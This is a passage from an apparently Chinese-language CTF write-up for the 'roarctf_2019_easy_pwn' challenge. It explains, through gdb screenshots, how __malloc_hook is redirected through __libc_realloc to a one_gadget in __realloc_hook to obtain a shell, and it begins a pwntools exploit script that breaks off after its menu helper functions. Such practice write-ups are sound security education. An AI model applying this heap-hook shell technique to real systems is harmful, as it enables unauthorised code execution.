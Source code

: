 ![](https://cdn.nlark.com/yuque/0/2021/png/574026/1610937235817-24cc61e9-324a-445b-8268-057975ce94f8.png)

开始单步走，多次之后可以得到如下结果：

![](https://cdn.nlark.com/yuque/0/2021/png/574026/1610937297819-045f96b6-fd55-4c53-b41b-014f3631ec95.png)

遇到call rax，单步步入：

![](https://cdn.nlark.com/yuque/0/2021/png/574026/1610937404859-72a4a85f-2255-4546-b8df-15564427cc0b.png)

和之前的内存核对一下就可以知道这是在gdb中的__GI___libc_realloc+2，说明程序开始执行__malloc_hook中的内容，继续单步，遇到call rax，单步步入：

![](https://cdn.nlark.com/yuque/0/2021/png/574026/1610937596265-c48b7562-6b0b-4daa-a51c-4990c35fc175.png)

可以看到程序会执行 __realloc_hook 里的 one_gadget：

![](https://cdn.nlark.com/yuque/0/2021/png/574026/1610937626753-775d8394-3977-4307-9d4f-ba87e95432d9.png)

从如下内存中可以看出$rsp+0x30==NULL

![](https://cdn.nlark.com/yuque/0/2021/png/574026/1610937764677-9e28f084-fd42-4a1a-97d5-174c7f8e9462.png)

one_gadget满足条件，成功执行。

---

总结一下：

Q：为什么要计算出__realloc_hook和__libc_realloc（gdb中是__GI___libc_realloc）？只计算__malloc_hook和one_gadget地址不就行了吗？

A：首先说明，使用one_gadget是有前提条件的，如果不满足前提条件是有可能无法getshell的；在所有的one_gadget无法getshell之后，可以使用__libc_realloc函数开头的push来调整栈帧从而满足one_gadget的条件：

![](https://cdn.nlark.com/yuque/0/2021/png/574026/1610881310139-2d012b5a-bae8-4d72-b47b-648f2f9d9999.png)

**<font style="color:#F5222D;">注意关于push的多少是要看one_gadget的执行条件的，最好要边调试边看内存。</font>**

**<font style="color:#F5222D;">完整exp如下：</font>**

```python
#coding=utf-8
from pwn import *
context.log_level='debug'

p=process('./roarctf_2019_easy_pwn')
#p=remote('node3.buuoj.cn',28166)
elf=ELF('./roarctf_2019_easy_pwn')
libc=ELF('/lib/x86_64-linux-gnu/libc.so.6')
#libc=ELF('./libc-2.23.so')

def choose(choose):
    p.recvuntil('choice: ')
    p.sendline(str(choose))

def create(size):
    choose(1)
    p.recvuntil('size: ')
    p.sendline(str(size))

def write(index,size,content):
    choose(2)
    p.recvuntil('index: ')
    p.sendline(str(index))
    p.recvuntil('size: ')
    p.sendline(str(size))
    p.recvuntil('content: ')
    p.sendline(str(content))
```